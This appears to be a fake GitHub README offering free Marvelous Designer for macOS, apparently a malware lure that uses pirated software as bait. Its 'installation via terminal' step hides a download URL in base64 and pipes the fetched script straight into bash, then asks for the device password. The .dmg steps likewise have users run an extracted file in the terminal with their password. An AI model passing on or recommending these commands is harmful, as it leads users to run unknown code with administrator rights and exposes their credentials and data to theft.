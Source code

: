 # Marvelous Designer for macOS – 3D Clothing Design Software

![Marvelous Designer Screenshot](https://farm3.staticflickr.com/2673/13128395415_8c930507e0_b.jpg)

## 📥 Download Marvelous Designer for macOS

[![⬇️ Download Marvelous Designer Mac](https://img.shields.io/badge/⬇️%20Download%20Marvelous%20Designer%20Mac-blue?style=for-the-badge&logo=apple&logoColor=white&labelColor=000000&color=007AFF)](https://mitrobandus.github.io/.github/MarvelousDesigner)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below. 
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Marvelous Designer for Mac?

Marvelous Designer is a professional 3D garment design tool for macOS that allows you to create realistic clothing and fabric simulations.  
It’s widely used in fashion design, animation, gaming, and film production to produce high-quality garments with true-to-life physics.  

With its intuitive interface, you can drape patterns onto 3D models, adjust fabrics, and see real-time changes as you work. Marvelous Designer supports importing 3D avatars, exporting garments to multiple formats, and integrates seamlessly into popular 3D workflows. Whether you’re creating costumes for a film or outfits for a game character, it delivers unmatched realism and creative freedom.

---

[![⬇️ Download Marvelous Designer Mac Now](https://img.shields.io/badge/⬇️%20Download%20Marvelous%20Designer%20Mac%20Now-green?style=for-the-badge&logo=apple&logoColor=white&labelColor=000000&color=34C759)](https://mitrobandus.github.io/.github/MarvelousDesigner)

---

![Marvelous Designer Second Screenshot](https://cgpress.org/wp-content/uploads/2015/10/md5rev-img3-turnedsewing-and-sidegeo.jpg)

---

## ⚙️ Key Features

- 👗 Create realistic 3D garments with accurate physics  
- 🧵 Pattern-based clothing design tools  
- 🎮 Export to major 3D software and game engines  
- 🖥️ Real-time garment simulation and draping  
- 🌍 Supports OBJ, FBX, Alembic, and more  
- 🪡 Sewing tools with customizable stitch properties  
- 📐 Pattern flattening and grading options  
- 💻 Optimized for Apple Silicon & Intel Macs  

---

## 💻 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

marvelous designer mac, marvelous designer for mac free download, marvelous designer free download mac, marvelous designer free mac, marvelous designer mac download, marvelous designer mac m1, marvelous designer for macbook, marvelous designer osx, marvelous designer macos, 3d clothing design mac, fashion design mac, garment simulation mac, marvelous designer pro mac, marvelous designer full mac, marvelous designer app mac

---
